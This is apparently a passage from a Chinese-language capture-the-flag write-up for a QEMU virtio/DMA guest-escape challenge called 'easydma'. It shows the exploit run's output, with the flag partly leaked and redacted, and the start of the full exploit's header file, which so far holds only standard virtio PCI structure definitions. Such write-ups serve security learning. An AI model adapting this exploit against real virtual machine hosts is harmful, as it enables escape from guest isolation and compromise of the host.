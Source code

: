 结果：

```bash
$ ./exp
./exp
[*] virtio_mmio: 0xbabe000
[*] virtio_notify_mmio: 0xbac1000
[*] virtio_common_mmio: 0xbabe000
[*] dma_mem: 0x3ffdd000
[+] virtio-blk init done!
[*] readflag_mmio: 0xcafe000
qemu-system-x86_64: wrong value for queue_enable 43414445
TED*????{**R????????j???????????TED**}?F{**REDACTED**}?F???????????????????????????????????????????????????????t
~ # $
```



# 完整Exp

## easydma.exp.h

```c
/* Common configuration */
#define VIRTIO_PCI_CAP_COMMON_CFG    1
/* Notifications */
#define VIRTIO_PCI_CAP_NOTIFY_CFG    2
/* ISR access */
#define VIRTIO_PCI_CAP_ISR_CFG        3
/* Device specific configuration */
#define VIRTIO_PCI_CAP_DEVICE_CFG    4
/* PCI configuration access */
#define VIRTIO_PCI_CAP_PCI_CFG        5
/* Additional shared memory capability */
#define VIRTIO_PCI_CAP_SHARED_MEMORY_CFG 8

/* This is the PCI capability header: */
struct virtio_pci_cap {
    uint8_t cap_vndr;   /* Generic PCI field: PCI_CAP_ID_VNDR */
    uint8_t cap_next;   /* Generic PCI field: next ptr. */
    uint8_t cap_len;    /* Generic PCI field: capability length */
    uint8_t cfg_type;   /* Identifies the structure. */
    uint8_t bar;        /* Where to find it. */
    uint8_t id;         /* Multiple capabilities of the same type */
    uint8_t padding[2]; /* Pad to full dword. */
    uint32_t offset;    /* Offset within bar. */
    uint32_t length;    /* Length of the structure, in bytes. */
};

struct virtio_pci_notify_cap {
    struct virtio_pci_cap cap;
    uint32_t notify_off_multiplier; /* Multiplier for queue_notify_off. */
};

/* Fields in VIRTIO_PCI_CAP_COMMON_CFG: */
struct virtio_pci_common_cfg {
    /* About the whole device. */
    uint32_t device_feature_select; /* read-write */
    uint32_t device_feature;        /* read-only */
    uint32_t guest_feature_select;  /* read-write */
    uint32_t guest_feature;         /* read-write */
    uint16_t msix_config;           /* read-write */
    uint16_t num_queues;            /* read-only */
```